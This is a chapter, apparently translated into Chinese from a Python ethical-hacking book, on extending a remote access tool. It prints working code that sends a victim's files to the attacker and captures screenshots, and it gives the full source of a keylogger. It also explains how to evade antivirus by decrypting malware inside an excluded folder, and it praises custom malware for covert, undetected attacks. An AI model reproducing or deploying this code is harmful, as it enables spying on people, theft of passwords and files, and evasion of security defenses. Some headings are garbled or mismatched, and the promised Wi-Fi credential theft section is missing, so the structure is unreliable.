









# 第七章：高级恶意软件

在上一章中，我们学习了如何创建一个非常简单的恶意软件，该软件执行黑客发送的*Windows*命令，并返回这些命令的结果。这个程序在仅执行命令方面非常有限。理想情况下，**远程访问工具**应该具有比这更为高级的功能。本章将给你一个基本的概念，了解你可以在恶意软件程序中编写的更高级功能。我们将在本章中讨论以下内容：

+   文件传输

+   偷窃 Wi-Fi 凭证

+   截取屏幕截图

# 构建一个键盘记录器文件传输

我们已经在*第六章*《恶意软件开发》中学习了如何在程序中发送和接收非常基础的数据。在本章中，我们将尝试从一台 PC 到另一台 PC 发送和接收文件，首先是从受害者的 PC 到黑客的 PC，然后从黑客的 PC 到受害者的 PC。这将让我们访问受害者 PC 上的任何敏感文件。例如，假设受害者将他们的密码存储在 PC 上的一个文件中（这是一个非常糟糕的主意；切勿将密码以明文形式存储在 PC 上）；那么我们可以简单地读取该文件的内容并将其发送给黑客。让我们看看这个过程是如何工作的。

## 将受害者的文件下载到黑客的电脑

在这里，我们将修改在*第六章*《恶意软件开发》中开发的程序，我们运行 Windows 命令来增加文件传输功能（请参见*创建恶意软件*部分）。首先，我们将添加一个下载功能，将任何文件从受害者的 PC 发送到黑客的 PC，之后再从黑客的 PC 发送到受害者的 PC。为了通过网络发送文件，我们需要执行一些特定的步骤。接下来列出了这些步骤：

1.  检查文件是否存在。如果不存在，则抛出错误。

1.  如果文件存在，将文件内容读取到程序中。

1.  一旦内容被读取，将一个特殊标记添加到数据的末尾，以表示文件传输完成。

1.  通过网络发送数据字节。

1.  在接收端，接收字节直到匹配标记。

1.  一旦标记被识别，移除接收到字节中的标记。

1.  将剩余的字节写入到你电脑的文件系统中。

1.  关闭连接。

如果你立刻不理解这些步骤也没关系。我们将逐步讲解这些步骤。你可以将这个功能添加到我们在*第六章*《恶意软件开发》中已经开发的程序中。为了简化操作，使用我们在*第六章*《恶意软件开发》中创建的黑客和受害者程序。在 Kali 和 Windows PC 上分别为黑客和服务器创建一个新项目，并将其命名为*advanced_server*和*advanced_victim*。将前几章的代码复制到相应的项目中，这样你就有了可以继续开发的代码基础。

让我们首先定义如何将文件从受害者发送到黑客。假设在受害者的 PC 上有一个存储受害者密码的文件。这个文件是作为示例使用的。从理论上讲，你可以从受害者的 PC 下载任何你想要的文件。

假设文件名是`passwords.txt`。让我们通过图形化的策略来看一下，这样可以帮助我们理解这个过程如何在实践中工作：

图 7.1 – 向黑客发送文件

首先，我们需要将受害者的文件名从黑客发送到受害者。我们已经在*第六章*《恶意软件开发》中学到了如何通过网络发送文本数据，因此这个过程相对直接。在黑客程序中，我们将设计以下策略，发送需要从受害者下载的文件名。如果我们想下载一个名为`passwords.txt`的文件，我们的命令看起来可能是`download passwords.txt`。因此，在黑客程序中，我们将检查黑客命令是否以`download`开头，并为此条件创建一个案例。我们来看一下以下代码。在我们的主循环中，我们检查不同条件的地方，将插入以下检查：

elif command.startswith("download"):

hacker_socket.send(command.encode())

exist = hacker_socket.recv(1024)

第一行检查黑客的命令是否是从受害者那里下载文件。如果是，我们将命令发送给受害者，受害者将回复文件是否存在。根据回复，可以采取进一步的行动。如果文件存在，我们将处理下载文件的情况，否则我们将安全退出程序。现在，让我们稍微停留在黑客程序上，转到受害者程序。在受害者端，我们需要添加一个类似的检查，判断命令是否为`download`。如果是，我们将从接收到的消息中提取文件名，并检查文件是否存在。进入受害者程序，并在主循环中编写以下检查：

elif hacker_command.startswith("download"):

file_to_download = hacker_command.strip("download ")

if os.path.exists(file_to_download):

exists = "yes"

victim_socket.send(exists.encode())

else:

exists = "no"

victim_socket.send(exists.encode())

continue

在这里，我们接收命令并检查命令的类型。一旦收到包含下载字符串的命令，我们可以从命令中剥离出下载部分，以检索我们感兴趣的实际文件名。在前面代码的第三行中，我们检查文件是否存在。如果存在，我们会回复`yes`，否则回复`no`。记住，在黑客程序中，我们在等待接收`exists`变量的这个回复。请注意，我们还没有发送任何文件数据。我们只是创建了外部循环来正确处理数据的发送和接收。文件的读取部分将在前面代码的第一个`if`语句中处理。现在，我们需要读取文件。

接下来，让我们看看下面的代码，它从受害者的机器读取文件并将其发送回黑客：

with open(file_to_download, "rb") as file:

chunk = file.read(CHUNK_SIZE)

while len(chunk) > 0:

victim_socket.send(chunk)

chunk = file.read(CHUNK_SIZE)

# 这将一直运行直到文件结束。

# 一旦文件传输完成，我们需要发送标识符。                            victim_socket.send(eof_identifier.encode())

print("文件成功发送")

让我们来分析一下刚才看到的代码。文件行是一个命令，用于以二进制格式打开并读取文件。尽管它是一个文本文件，但如果你想通过网络传输文件，读取二进制格式的文件是个好主意，因为在实际情况下，文件类型可能是任何格式。接着，我们读取一块字节，并且在文件顶部定义了`CHUNK_SIZE = 2048`。在读取第一块字节后，我们检查文件是否还有更多字节。如果有，我们就通过使用`while`循环迭代地将其发送到网络，直到读取到文件的末尾。这个循环将在没有更多字节可读时停止。一旦我们将完整的文件通过网络发送到黑客那里，我们需要发送标识符，以便黑客知道他们可以停止继续读取。为此，我们发送`eof_identifier`，其值为`eof_identifier = "<END_OF_FILE_IDENTIFIER>"`。黑客将使用这个标识符来确认接收到的数据已经完整。

接下来，我们需要在黑客程序中接收这些数据。为此，进入黑客程序并检查接收到的`exists`变量的值。如果受害者的回复是`yes`，这意味着文件在受害者的机器上存在，我们可以开始下载文件。请注意，我们刚刚开发了一个发送数据的程序，现在我们将在这里接收相同的数据。接收到的数据将是字节形式，我们将把这些字节写入到黑客的 PC 上，以生成与受害者 PC 上相同的文件。让我们看看以下代码：

if exist.decode() == "yes":

print("文件已存在")

# 在此接收文件

file_name = command.strip("download ")

with open(file_name, "wb") as file:

print("正在下载文件")

while True:

chunk = hacker_socket.recv(CHUNK_SIZE)

file.write(chunk)

if chunk.endswith(eof_identifier.encode()):

chunk = chunk[:-len(eof_identifier)]

file.write(chunk)

break

print("下载成功，", file_name)

如果文件存在，我们将创建一个与`file_name`同名的新文件。请注意，我们以`wb`（写入二进制模式）创建文件，这样我们就可以下载任何类型的文件。创建文件后，我们需要写入从受害者处接收到的文件内容。我们定义`CHUNK_SIZE`变量的大小与受害者在发送数据时定义的大小相同，然后我们开始连续接收数据并写入磁盘，直到接收到文件末尾的标识符。你需要定义与受害者相同的`eof_identifier`变量，否则程序将无法正常工作。一旦达到标识符，我们就去除标识符，写入剩余的字节到磁盘，并退出循环。最后，我们可以打印出一条语句，指示我们已接收到所有数据。现在我们的程序完成了，使用这个程序，我们可以从受害者下载数据到黑客机器。

黑客的完整代码如下：

[`github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example10-hacker-advanced/hacker.py`](https://github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example10-hacker-advanced/hacker.py)

)

同样，发送文件给黑客的受害者完整代码如下：

[`github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example11-advanced-victim/advanced-victim.py`](https://github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example11-advanced-victim/advanced-victim.py)

)

现在，让我们尝试运行这个程序。首先运行黑客程序，然后是受害者程序。

在受害者的 PC 上创建一个名为`passwords.txt`的文件，并写入一些随机密码：

图 7.2 – 受害者 PC 上的密码文件

接下来，在黑客程序中输入以下命令：`download passwords.txt`。

现在，运行程序后，你将在黑客的 PC 上看到完全相同的文件：

图 7.3 – 从受害者处下载文件

你将看到在 Kali 机器上创建了一个名为`passwords.txt`的文件，如果你打开这个文件，它将与受害者 PC 上的文件内容相同：

图 7.4 – 黑客机器上的 passwords.txt 文件

如果你打开文件，你将看到文件的内容。你还可以尝试下载其他类型的文件，如图片，程序同样适用。

## 上传文件到受害者

上传文件到受害者的过程非常相似，只是数据现在会反向传输。使用这种方法，你可以将其他高级恶意软件上传到受害者的机器并运行它。然而，恶意软件不能直接上传。**入侵检测系统**（**IDS**）会检测到它。如果我们尝试直接上传，需要对其他恶意软件进行一些修改才能使用这种方法上传。首先，你需要加密恶意软件的字节并通过网络发送加密数据。让我们尝试理解 IDS 是如何工作的。防病毒软件有一个庞大的恶意文件签名数据库。签名，简单来说，是来自恶意程序的一串字节。因此，如果文件的签名与防病毒程序的数据库匹配，防病毒程序就会知道该文件是恶意软件。为了绕过这一点，我们需要加密数据。一旦恶意软件被加密，它的字节序列就会发生变化，防病毒程序会认为它不是恶意软件。然而，我们仍然需要解密这些文件才能正常运行。假设我们使用刚才开发的方法将加密的恶意软件通过网络发送给受害者。加密文件会被发送到受害者，当我们尝试解密它以恢复原文件时，防病毒程序会立即检测到并阻止该文件。这听起来似乎不是个好消息。然而，如果我们在一个已被添加到防病毒例外文件夹的文件夹中解密文件，我们就能绕过这种检测。这个防病毒程序不会扫描这个文件夹，我们可以成功解密恶意软件并运行它。然而，有一个小小的警告。为了将文件夹添加到防病毒例外中，我们需要管理员权限。稍后我们将在*第八章*，“*后期利用*”中，了解如何获取管理员权限。上传文件到黑客程序的代码非常相似，因此在这里讨论就显得多余了。我已经讨论过如何通过网络发送它了。在下一部分，我们将学习如何盗取存储在电脑上的 Wi-Fi 密码。

# 截取屏幕截图

你还可以使用恶意软件截取受害者电脑的屏幕截图。为此，你需要安装额外的库。我们需要一个叫做`pyautogui`的模块。这个模块可以帮助你在受害者的电脑上截取屏幕截图：

1.  要安装它，请去受害者的机器并输入以下命令进行安装。最好创建一个虚拟环境，并在虚拟环境中安装这个程序：

    `pip install pyautogui`

    这将安装所需的模块。

1.  接下来，我们需要定义截屏的情况。在黑客程序中，创建一个新情况并设置以下条件：

    if command == "screenshot":

    print("正在截取屏幕截图")

1.  同样，在受害者程序中，写下相同的情况：

    elif hacker_command == "screenshot":

    print("正在截取屏幕截图")

    screenshot = pyautogui.screenshot()

    screenshot.save("screenshot.png")

    print("屏幕截图已保存")

    这将把屏幕截图保存在受害者的 PC 上，文件名为`screenshot.pn`。

1.  让我们运行这个程序，看看输出是什么样的。在黑客的机器上，输出应该是这样的：

    图 7.5 – 黑客程序截取的屏幕截图

    受害者程序如下所示：

    

    图 7.6 – 受害者程序截取的屏幕截图

1.  如果你去受害者的 PC，你会看到有一个名为`screenshot.png`的文件保存在磁盘上。你可以使用我们之前学到的方法将该文件传输到黑客的 PC 上。只需在黑客程序中写下以下命令：

    **下载 screenshot.png**

    这将把屏幕截图移动到黑客的 PC 上。我截取了以下屏幕截图：

图 7.7 – 在 Windows PC 上截取的屏幕截图

在这一部分中，我们学习了如何使用我们的黑客程序截取受害者 PC 的屏幕截图，并将文件传输到黑客的 PC。接下来的部分，我们将学习如何创建一个键盘记录器来追踪受害者的按键记录。

# 键盘记录器

在这一部分中，我们将构建一个简单的键盘记录器。键盘记录器是一种恶意软件程序，用于记录用户的按键记录。它是最常见的恶意软件类型之一。键盘记录器常用于窃取密码和其他敏感信息，如信用卡信息。键盘记录器通常设计得尽可能安静，这意味着它很难被发现。让我们尝试构建一个简单的键盘记录器。你需要安装一个名为`pynput`的模块来构建键盘记录器。这个模块允许你通过编程方式访问按键记录：

1.  要安装此模块，请使用以下命令：

    `pip install pynput`

    这将安装模块：

1.  一旦模块安装完成，我们可以从该模块导入`keyboard`：

    `from pynput import keyboard`

1.  接下来，我们将定义一个监听器，用于监听按键记录。这个监听器会根据不同的事件处理不同的情况。看看以下代码：

    with keyboard.Listener(on_press=onPress, on_release=onRelease) as listener:

    listener.join()

    之前的代码定义了两个函数，分别用于*按下*和*释放*按键。当按下一个键时，将调用`onPress`函数，而当释放一个键时，将调用`onRelease`函数。

1.  现在我们将定义这些函数。让我们看看这些函数：

    def onPress(key):

    print(str(key))

    def onRelease(key):

    if str(key) == 'Key.esc':

    return False

    我们定义了非常简单的函数。当按下键时，我们只需打印它，而当键被释放时，我们会检查按下了哪个键。如果按下的是*Esc*键，我们就退出程序，否则继续。这样，我们就有了退出条件，避免了程序卡住。如果我们没有定义这个条件，就无法退出程序，因为按下*Ctrl* + *C*会只是打印出信息，而不是退出。为了安全地退出这个函数，我们返回`False`值。让我们来看一下一个简单的执行过程：

    

    图 7.8 – 打印按下的键

    在这张截图中，我们打印了执行程序时按下的键。当我们按下*Esc*键时，程序退出了。这就是一个非常基础的键盘记录器的全部内容。然而，在实际情况下，你会在受害者的机器上运行这个程序，因此仅仅在控制台打印是没有多大用处的。理想情况下，我们希望保留这些按键记录的日志。很多键盘记录器会将按键记录存储到文件中，黑客可以从中查看是否输入了任何密码或其他敏感信息。

1.  现在我们将对我们的键盘记录器进行一些更改，使其更有用。让我们创建一个新的文件名，`keylogs.txt`。

    我们将把日志存储在这个文件中。让我们来看一下代码：

    import sys

    filename = "keylogs.txt"

    file = open(filename, "w")

    def onPress(key):

    print(str(key))

    file.write(str(key))

    def onRelease(key):

    if str(key) == 'Key.esc':

    file.close()

    sys.exit(0)

    在这里，我们创建了一个写入模式的文件，每次按下一个键时，我们都会将该键存储到文件中。最后，当按下*Esc*键时，我们关闭文件并退出。如果你启动并运行程序，按下几个键，你会看到创建了一个新文件，所有的按键记录都存储在该文件内。以下是我执行此操作的结果：

    

    图 7.9 – 文件中存储的按键记录

1.  你可以在上面的截图中看到，每个字符周围都有引号。我们可以去掉这些引号以提高可读性。为了替换它，我们可以更新以下代码：

    def onPress(key):

    print(str(key))

    stroke = str(key).replace("'", "")

    if str(key) == "Key.esc":

    file.write(" ")

    else:

    file.write(stroke)

    在这里，我们做了两个改变。首先，在将它们写入文件之前，我们将单引号替换为空字符串；其次，如果按下的是*Esc*键，我们就不将它写入文件。现在，如果你运行程序，你会看到它只注册字符。

    如果你按下任何特殊键，比如*Enter*或*space*，你会看到程序记录的是它们的名称，而不是它们的功能，这不是我们想要的。我们希望用户按下空格键时能看到一个空格。为此，我们将做出以下更改：

    def onPress(key):

    print(str(key))

    stroke = str(key).replace("'", "")

    if str(key) == "Key.space":

    file.write(" ")

    elif str(key) == "Key.enter":

    file.write("\n")

    elif str(key) == "Key.esc":

    file.write(" ")

    else:

    file.write(stroke)

1.  我们的键盘记录器几乎完成了。我们只需要做一个最后的修改。我们的键盘记录器不支持退格键。为了添加此功能，看看以下代码：

    import os

    elif str(key) == "Key.backspace":

    file.seek(file.tell()-1, os.SEEK_SET)

    file.write("")

    这段代码检查是否有退格键，如果遇到退格键，我们会回退一个字符并在其位置放置一个空字符串。这样就替换了文件中原本存储的字符。现在，我们的基本键盘记录器已经完成。它支持字符插入，并且能够注册退格键的操作。键盘记录器的完整代码如下：

    from pynput import keyboard

    import sys

    import os

    filename = "keylogs.txt"

    file = open(filename, "w")

    def onPress(key):

    print(str(key))

    stroke = str(key).replace("'", "")

    if str(key) == "Key.space":

    file.write(" ")

    elif str(key) == "Key.enter":

    file.write("\n")

    elif str(key) == "Key.esc":

    file.write(" ")

    elif str(key) == "Key.backspace":

    file.seek(file.tell()-1, os.SEEK_SET)

    file.write("")

    else:

    file.write(stroke)

    def onRelease(key):

    if str(key) == 'Key.esc':

    file.close()

    sys.exit(0)

    if __name__ == "__main__":

    with keyboard.Listener(on_press=onPress, on_release=onRelease) as listener:

    listener.join()

在这一部分，我们学到了如何部署一个简单的键盘记录器。以此为基础，你可以编写一个更为高级的键盘记录器。

# 总结

在这一章中，我们学到了如何为我们的基础恶意软件添加高级功能。首先，我们添加了受害者到客户端的文件传输支持，接着我们添加了其他功能，如从受害者的计算机截屏并将其发送回黑客。最后，我们编写了自己的键盘记录器。每天，成千上万的恶意软件被编写出来，防病毒程序尝试跟上这些软件的检测进度。编写你自己的恶意软件的优势在于，它不容易被检测程序发现，因为它是你自己编写的，还不存在于防病毒数据库中。这为你提供了更成功的攻击机会。使用我们在本章开发的工具，你将理解如何构建更高级的恶意软件，并且你可以根据需要为它添加更多功能。通过编写自定义恶意软件所获得的技能将为你提供更多隐秘攻击的机会，并减少防病毒程序的检测。

在下一章，我们将看到如何将我们的代码打包成一个独立的可执行文件，并如何将其用于黑客攻击。下一章见！
